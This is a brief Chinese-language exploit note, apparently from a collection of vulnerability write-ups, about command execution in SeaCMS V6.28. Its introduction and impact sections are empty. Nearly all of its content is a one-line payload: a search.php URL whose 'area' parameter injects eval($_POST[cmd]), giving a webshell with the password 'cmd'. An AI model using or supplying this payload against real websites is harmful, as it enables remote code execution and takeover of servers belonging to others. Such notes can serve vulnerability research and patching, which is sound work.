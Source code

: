 # 海洋CMS Seacms V6.28 命令执行

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

一句话payload，密码cmd:


```
http://url/search.php?searchtype=5&tid=&area=eval($_POST[cmd])
```
